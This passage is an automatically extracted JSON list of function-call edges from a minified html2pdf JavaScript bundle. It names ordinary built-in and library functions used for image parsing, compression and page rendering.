"static/js/html2pdf.bundle.min.js", "target": "getTime"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseHeader"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseBGR"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getUint32"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getUint32"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getUint32"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getUint32"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getInt32"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getUint16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getUint16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getUint32"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getUint32"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getUint32"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getUint32"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getUint32"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getUint32"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getUint8"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getUint8"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getUint8"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getUint8"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getUint8"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getUint8"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getUint16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getUint16"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getUint8"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getUint8"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getUint8"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getUint8"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getUint8"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getUint8"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getUint8"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "pqdownheap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "pqdownheap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "d_code"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "build_tree"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "build_tree"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "build_tree"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "flush_pending"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "read_buf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "deflate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "deflateInit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "deflate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "deflateEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "deflateParams"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "deflateSetDictionary"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "deflateInit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "deflateEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toHex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toHex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createTextNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toHex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "undefined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "0x80"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cloneNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "putImageData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getImageData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setInterval"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "clearInterval"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "scrollTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "scrollTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replaceChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "namedColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "hex6"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "hex3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "now"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "onrendered"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "drawImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "proxyLoad"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getOrigin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseBackgroundImages"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "imageExists"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isSVG"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isSameOrigin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isSVG"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isInline"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "some"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getOrigin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "timeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "some"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "findImages"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "all"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "race"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reverse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "some"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cssFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 